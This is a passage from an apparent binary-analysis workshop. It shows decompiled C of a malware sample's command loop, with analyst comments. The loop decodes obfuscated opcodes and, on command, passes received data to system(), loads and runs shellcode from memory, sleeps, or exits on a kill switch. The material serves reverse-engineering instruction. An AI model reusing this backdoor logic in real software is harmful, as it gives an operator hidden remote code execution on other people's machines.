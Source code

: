```c
          // (3) Read an operation code and decode it.
          oper = *maybe_command;
          iVar5 = ((oper + (~oper | 0xff0000ff) + 1 & ~(oper + (~oper | 0xff0000) + 1 >> 8)) +
                   (oper + (~oper | 0xff0000) + 1 >> 8) +
                  (oper + (~oper & 0xffff0000 | (uint)CONCAT11(0xff,(char)~oper)) + 1) * 0x100) -
                  ((oper + (~oper & 0xffff0000 | (uint)CONCAT11(0xff,(char)~oper)) + 1) * 0x100 &
                  (oper + (~oper | 0xff0000ff) + 1 & ~(oper + (~oper | 0xff0000) + 1 >> 8)) +
                  (oper + (~oper | 0xff0000) + 1 >> 8));
          opcode = (iVar5 - (iVar5 * 2 | 0x56280e78U)) + 0xab14073b;
        } else {
          // Otherwise fallback to the default opcode (sleep)
          opcode = 0xc339ec90;
        }
      } else {
        opcode = 0xc339ec90;
      }
    }

    // (4) Handle the opcode
    if (opcode == 0xaf03baa8) { // (5) Kill switch??
      bVar3 = true;
    } else {
      if (opcode < 0xaf03baa9) {
        uVar1 = (uint)((ulong)local_28 >> 0x20);

        // 0x89484fbf => call system with the received buffer as an argument
        if (opcode == 0x89484fbf) {
          if (((~(uint)((ulong)(4 - local_28) >> 0x20) | uVar1) & ~uVar1) >> 0x1f == 0) {
            unpacked_system(maybe_command + 1);
          }
        } else {
           // 0xa37dbc28 => Run Shellcode
          if (opcode != 0xa37dbc28) goto LAB_42001674;
          if ((((uint)((ulong)(local_28 + -8) >> 0x20) & (uVar1 ^ 0xffffffff)) >> 0x1f == 0) &&
             (uVar1 = maybe_command[1],
             ((uint)((local_28 - (ulong)uVar1) + 8 >> 0x20) & ~(uint)((ulong)(local_28 + 8) >> 0x20)
             ) >> 0x1f == 0)) {
            pShellcode = (undefined *)unpacked_memalign(0x1000,(ulong)uVar1);
            unpacked_memcpy(pShellcode,maybe_command + 2,(ulong)uVar1);
            unpacked_mprotect(pShellcode,(ulong)uVar1,5);
            (*(code *)pShellcode)();
            unpacked_mprotect(pShellcode,(ulong)uVar1,3);
            unpacked_free(pShellcode);
          }
        }
      } else {
LAB_42001674:
        if ((uint)((local_28 + 0x7ffffffffffffff8U ^ local_28 + 0x7ffffffffffffff8 >> 0x3f) -
                   (local_28 + 0x7ffffffffffffff8 >> 0x3f) >> 0x3f) != 0) {
          local_60 = maybe_command[1];
        }
      }
    }
    unpacked_sleep((ulong)local_60);
    if (bVar3) { // (5) If bVar3 is true, return and exit the dispatch loop.
      sem_post(unpacked_semaphore);
      uVar4 = 0;
      if (lVar2 != *(long *)(in_FS_OFFSET + 0x28)) {
        uVar4 = FUN_42001070();
      }
      return uVar4;
    }
```

[jdk]: https://docs.aws.amazon.com/corretto/latest/corretto-11-ug/downloads-list.html "Amazon Corretto"
[online]: https://advanced-binary-analysis.gosec.co "Online Workshop Environment"
[cconv]: https://en.wikipedia.org/wiki/X86_calling_conventions "X86 Calling Conventions"